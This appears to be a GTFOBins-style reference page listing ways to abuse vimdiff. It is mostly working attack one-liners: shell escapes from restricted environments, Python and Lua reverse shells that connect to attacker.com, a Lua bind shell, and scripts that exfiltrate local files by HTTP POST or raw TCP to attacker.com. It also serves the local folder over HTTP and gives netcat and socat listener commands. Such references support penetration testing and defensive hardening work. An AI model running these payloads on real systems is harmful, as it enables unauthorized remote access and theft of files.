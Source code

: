 # GTFOBin: vimdiff

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
vimdiff -c ':!/bin/sh'
```

```
vimdiff
:set shell=/bin/sh
:shell
```

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `vimdiff` is compiled with Lua support.

```
vimdiff -c ':lua os.execute("reset; exec sh")'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
vimdiff -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
vimdiff -c ':lua local s=require("socket"); local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  while true do
    local r,x=t:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));t:send(b);
  end;
  f:close();t:close();'
```

## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
vimdiff -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  while true do
    local r,x=c:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'
```

## File upload

It can exfiltrate files on the network.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
vimdiff -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
vim.command(":q!")'
```

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.

```
export LPORT=8888
vimdiff -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
vim.command(":q!")'
```

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
vimdiff -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
  local d=f:read("*a")
  io.close(f);
  local s=require("socket");
  local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  t:send(d);
  t:close();'
```